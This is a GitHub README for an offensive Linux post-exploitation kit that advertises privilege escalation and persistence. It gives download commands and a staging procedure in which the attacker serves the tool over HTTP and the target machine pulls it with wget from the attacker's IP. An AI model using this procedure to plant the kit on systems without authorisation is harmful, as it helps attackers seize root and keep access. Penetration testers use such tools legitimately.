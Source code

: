 # Gengar PwnerKit

> <div>
>     <img src="https://img.shields.io/badge/-Linux-grey?logo=Linux&logoColor=white" width="70px">
>     <img src="https://img.shields.io/badge/-Bash-green?logo=GNU-Bash&logoColor=white" width="70px">
>     <img src="https://img.shields.io/badge/-Python3-3776AB?logo=Python&logoColor=white" width="90px">
>     <img src="https://img.shields.io/badge/-PHP-777BB4?logo=PHP&logoColor=white" width="65px">
> </div>

> ## | Post Exploration | Privilege Escalation | Persistence |
> 
>                  ![image](https://github.com/h0ru/gpk/blob/main/gengar.gif)
>
> ---

> ## How to install?
> ### Wget:
> ```
> wget -q https://raw.githubusercontent.com/h0ru/gpk/main/gpk -O gpk ; chmod +x gpk
> ```
> ### Curl: 
> ```
> curl -q https://raw.githubusercontent.com/h0ru/gpk/main/gpk -o gpk ; chmod +x gpk
> ```
> ---

> ## How to upload to targets machine?
> ### 1. Download the GPK
> ### 2. Attacker Machine:  
> ```
> python3 -m http.server PORT
> ``` 
> ### 3. Target Machine:
> ```
> wget YOURIP:PORT/gpk ; chmod +x gpk
> ```
> ---

> ## Images
> <div align="center">
>   <h1>  <img src="https://github.com/h0ru/gpk/blob/main/gpk.png" width="500px"> </h1>
>   <h1>  <img src="https://github.com/h0ru/gpk/blob/main/chacal.png" width="500px"> </h1>
> </div>

> ## GPK uses these other scripts
> ### ➫ [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
> ### ➫ [Linux Exploit Suggester ](https://github.com/The-Z-Labs/linux-exploit-suggester)
> ---
